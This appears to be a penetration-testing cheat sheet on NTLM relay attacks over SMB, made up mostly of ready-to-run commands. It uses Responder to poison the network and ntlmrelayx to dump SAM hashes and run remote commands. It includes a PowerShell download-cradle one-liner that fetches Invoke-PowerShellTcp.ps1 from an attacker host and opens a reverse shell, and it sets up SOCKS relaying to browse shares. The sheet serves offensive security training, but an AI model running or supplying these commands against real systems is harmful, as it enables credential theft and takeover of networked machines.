 | Target Type           | Example                              | Multi-relaying Default Status |
| --------------------- | ------------------------------------ | ----------------------------- |
| Single General Target | -t 172.16.117.50                     | Disabled                      |
| Single Named Target   | -t smb://ZENCORP\PETER@172.16.117.50 | Enabled                       |
| Multiple Targets      | -tf relayTargets.txt                 | Enabled                       |

### <mark style="color:yellow;">NTLM Relay over SMB Attacks</mark>

#### SAM Dump

```bash
# Disable SMB in responder.conf
sed -i "s/SMB = On/SMB = Off/" Responder.conf

# Poison the network
sudo python3 Responder.py -I ens192

# NTLM Relay SMB
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support 

# Command execution
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c 'ping -n 1 172.16.117.30'
```

#### Reverse Shell

Use [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) from [Nishang](https://github.com/samratashok/nishang) or base64 from [revshells.com](https://www.revshells.com/)

```bash
# Disable SMB in responder.conf
sed -i "s/SMB = On/SMB = Off/" Responder.conf

# Poison the network
sudo python3 Responder.py -I ens192

# NTLM Relay SMB
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support 

# Reverse shell
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 8888"
```

### <mark style="color:yellow;">SOCKS with NTLM relay</mark>

```bash
# Disable SMB in responder.conf
sed -i "s/SMB = On/SMB = Off/" Responder.conf

# Run ntlmrelay
sudo ntlmrelayx.py -tf targets.txt -smb2support -socks

# Poison network
sudo python3 Responder.py -I ens192

# List shared folders
proxychains4 -q smbclient.py ZENCORP/RMONTY@172.16.117.50 -no-pass

# Shell
```